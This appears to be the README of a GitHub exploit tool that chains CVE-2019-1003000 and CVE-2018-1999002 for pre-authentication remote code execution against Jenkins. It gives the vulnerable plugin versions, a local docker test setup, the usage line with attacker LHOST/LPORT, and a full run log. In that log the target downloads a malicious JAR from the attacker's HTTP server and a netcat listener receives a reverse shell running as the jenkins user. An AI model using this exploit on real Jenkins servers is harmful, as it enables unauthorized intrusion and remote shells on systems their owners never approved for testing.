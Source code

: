# jenkins_preauth_rce

## Summary

Description : This exploit chains CVE-2019-1003000 and CVE-2018-1999002 for Pre-Auth Remote Code Execution in Jenkins
Security Advisory : https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266

**Vulnerable Plugins**

Pipeline: Declarative Plugin up to and including 1.3.4
Pipeline: Groovy Plugin up to and including 2.61
Script Security Plugin up to and including 1.49

**Resources**

https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html \
https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2018-1000861 \
https://github.com/petercunha/Jenkins-PreAuth-RCE-PoC \
https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266

Here is the exploit code for exploit this issue.

## Usage

Start docker container with Jenins if you want to test this locally

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker-compose up -d
Creating network "jenkinspreauthrce_default" with the default driver
Creating jenkinspreauthrce_jenkins_1 ... done
```

Verify that container is running.

```ssh
⬢  jenkins_preauth_rce  master ⦿ docker ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                                              NAMES
cdd5256e8065        vulhub/jenkins:2.138   "/sbin/tini -- /usr/…"   29 seconds ago      Up 27 seconds       0.0.0.0:8080->8080/tcp, 0.0.0.0:50000->50000/tcp   jenkinspreauthrce_jenkins_1
```

Run ./jenkins_preauth_rce.py to get the usage menu.

```ssh
⬢  jenkins_preauth_rce  master ⦿ ./jenkins_preauth_rce.py

 ▐▄▄▄▄▄▄ . ▐ ▄ ▄ •▄ ▪   ▐ ▄ .▄▄ ·  ▄▄▄·▄▄▄  ▄▄▄ . ▄▄▄· ▄• ▄▌▄▄▄▄▄ ▄ .▄▄▄▄   ▄▄· ▄▄▄ .
  ·██▀▄.▀·•█▌▐██▌▄▌▪██ •█▌▐█▐█ ▀. ▐█ ▄█▀▄ █·▀▄.▀·▐█ ▀█ █▪██▌•██  ██▪▐█▀▄ █·▐█ ▌▪▀▄.▀·
▪▄ ██▐▀▀▪▄▐█▐▐▌▐▀▀▄·▐█·▐█▐▐▌▄▀▀▀█▄ ██▀·▐▀▀▄ ▐▀▀▪▄▄█▀▀█ █▌▐█▌ ▐█.▪██▀▐█▐▀▀▄ ██ ▄▄▐▀▀▪▄
▐▌▐█▌▐█▄▄▌██▐█▌▐█.█▌▐█▌██▐█▌▐█▄▪▐█▐█▪·•▐█•█▌▐█▄▄▌▐█ ▪▐▌▐█▄█▌ ▐█▌·██▌▐▀▐█•█▌▐███▌▐█▄▄▌
 ▀▀▀• ▀▀▀ ▀▀ █▪·▀  ▀▀▀▀▀▀ █▪ ▀▀▀▀ .▀   .▀  ▀ ▀▀▀  ▀  ▀  ▀▀▀  ▀▀▀ ▀▀▀ ·.▀  ▀·▀▀▀  ▀▀▀
[mikael.kall@kindredgroup.com]

Usage: ./jenkins_preauth_rce.py <URL> <LHOST> <LPORT>
EXAMPLE: ./jenkins_preauth_rce.py 'http://10.10.10.70' 10.10.14.24 1337
```

Run the exploit

```ssh
⬢  jenkins_preauth_rce  master ⦿ ./jenkins_preauth_rce.py 'http://127.0.0.1:8080' 10.100.xx.xx 1337
[+] LHOST = 10.100.xx.xx
[+] LPORT = 1337
[+] Generating payload
[+] HTTP Listen = 8000
[+] Netcat = 1337
[+] Exploit
192.168.144.2 - - [16/Apr/2019 13:47:45] code 404, message File not found
192.168.144.2 - - [16/Apr/2019 13:47:45] "HEAD /package/kCDcOLmx/1/kCDcOLmx-1.pom HTTP/1.1" 404 -
192.168.144.2 - - [16/Apr/2019 13:47:45] "HEAD /package/kCDcOLmx/1/kCDcOLmx-1.jar HTTP/1.1" 200 -
192.168.144.2 - - [16/Apr/2019 13:47:45] "GET /package/kCDcOLmx/1/kCDcOLmx-1.jar HTTP/1.1" 200 -
Connection from 192.168.144.2:47880
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
jenkins@cdd5256e8065:/$ id
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
``

